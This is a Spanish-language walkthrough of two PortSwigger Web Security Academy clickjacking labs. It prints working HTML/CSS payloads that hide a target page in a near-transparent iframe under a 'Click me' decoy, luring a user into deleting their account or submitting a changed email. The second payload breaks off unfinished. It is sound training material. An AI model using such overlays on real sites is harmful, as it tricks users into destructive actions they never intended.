 
## [Clickjacking](https://portswigger.net/web-security/clickjacking)

### [Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)

Este laboratorio contiene un botón para eliminar la cuenta el cual está protegido por un token CSRF. La intención es hacer que un usuario haga click en un iframe con opacidad baja para que elimine su cuenta.

Para resolver este laboratorio, después de autenticarse con las credenciales provistas, dirigirse a Account Actions, y tomando esta url, la ponemos en el src del siguiente iframe.

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 370px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://ac411f041eabd7098042860e00170056.web-security-academy.net/account"></iframe>
```

### [Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)

El objetivo del laboratorio es cambiar la dirección de correo electrónico del usuario rellenando previamente un formulario utilizando parámetros URL e intentar engañarlo para que haga click en un botón "Update Email" sin que el mismo sepa.

Para resolver este laboratorio, después de autenticarse con las credenciales provistas, dirigirse a Change Email, y tomando esta url, la ponemos en el src del siguiente iframe, seguido del parámetro email.

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 560px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
```